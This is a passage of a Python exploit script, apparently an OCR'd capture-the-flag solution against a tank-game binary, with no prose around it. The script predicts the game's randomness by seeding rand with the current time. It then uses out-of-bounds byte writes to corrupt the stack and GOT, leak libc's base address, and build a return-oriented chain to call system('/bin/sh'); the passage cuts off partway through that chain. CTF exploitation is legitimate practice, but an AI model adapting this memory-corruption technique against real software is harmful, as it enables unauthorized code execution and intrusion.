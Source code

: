 ```python
    ru("fire when ready!")
    sl("pew!")

def shot_change(result,ammo_type,max_power=33,max_ange=90,byte=b'\x00'):
    print("max_power"+str(max_power)+"\n max_ange="+str(max_ange))
    power,angle=myfun(result,max_power,max_ange)
    ru("Select ammo type:\n1: _\n2: -")
    sl(str(ammo_type))
    ru("Enter power: ")
    sl(str(power))
    ru("Enter angle: ")
    sl(str(angle))
    ru("fire when ready!")
    sl(b"pew!AA"+byte)
    sl("pew!")


ru("welcome to the super sick tank game! survive for as long as you can!")

now=int(time.time())
mylibc.srand(now)

for i in range(40):
    shot()


max_power_offset=0x70
max_ange_offset=-0x4
shot_change(max_power_offset-1,2)
shot_change(0,2)

max_power=45
max_ange=0x2d00005a
miss_offset=-0x12c
shot_change(max_power_offset+3,2,max_power,max_ange)
max_power=10000

shot_change(miss_offset-1,2,max_power,max_ange)

num_ammo_types_num_offset=-0x118
backdoor=0x4013E3
puts_got=0x404018
shot_change(num_ammo_types_num_offset,1,max_power,max_ange,p8(puts_got&0xff))
ret_offset=0x90
heart_offset=-0xf8

shot_change(heart_offset,9,max_power,max_ange,p8((puts_got>>8)&0xff))

shot_change(heart_offset+1,9,max_power,max_ange,p8(3))

shot_change(miss_offset,9,max_power,max_ange,p8(31))
libc_base=uu64()-libc.sym['puts']

pr("libc_base")
#mydbg()
pop_rdi=libc_base+0x000000000002a3e5
binsh=libc_base+next(libc.search(b'/bin/sh'))
sys=libc_base+libc.sym['system']
ret=libc_base+0x0000000000029139
shot_change(miss_offset,9,max_power,max_ange,p8(pop_rdi&0xff))
for i in range(7):
    shot_change(ret_offset+i,9,max_power,max_ange,p8((pop_rdi>>(8*(i+1)))&0xff))
shot_change(ret_offset+7,9,max_power,max_ange,p8(binsh&0xff))
```